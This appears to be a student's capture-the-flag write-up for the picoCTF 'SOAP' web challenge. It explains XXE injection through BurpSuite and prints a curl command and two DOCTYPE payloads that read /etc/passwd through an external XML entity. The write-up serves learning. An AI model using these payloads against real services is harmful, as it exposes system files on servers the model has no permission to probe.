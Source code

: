 # SOAP

**Flag:** ``

Approach

- step 1<br>
We can intercept the request using BurpSuite to modify it.

- step 2<br>
We can make use of an XXE injection to interfere with the site's processing of the XML data.


![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Web%20Exploitation/assets/SOAP.png)



What you learned through solving this challenge:
<br>
- We learned about XXE injection and the different payloads.

Other incorrect methods you tried:
<br>
- Tried inspecting cURL,didnt get response.

```
curl -X POST http://saturn.picoctf.net:54219/data \
     -H "Content-Type: application/xml" \
     -H "Accept-Language: en-GB,en;q=0.9" \
     -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36" \
     -H "Accept: */*" \
     -H "Origin: http://saturn.picoctf.net:54219" \
     -H "Referer: http://saturn.picoctf.net:54219/" \
     -H "Accept-Encoding: gzip, deflate, br" \
     -H "Connection: keep-alive" \
     -d '<?xml version="1.0" encoding="UTF-8"?>
          <!DOCTYPE data [
              <!ENTITY xxe SYSTEM "file:///etc/passwd">
          ]>
          <data>
              <ID>&xxe;</ID>
          </data>'
```


Payloads tried:
  - <!DOCTYPE data [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  - <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>



References
<br>
-[XXE](https://portswigger.net/web-security/xxe)

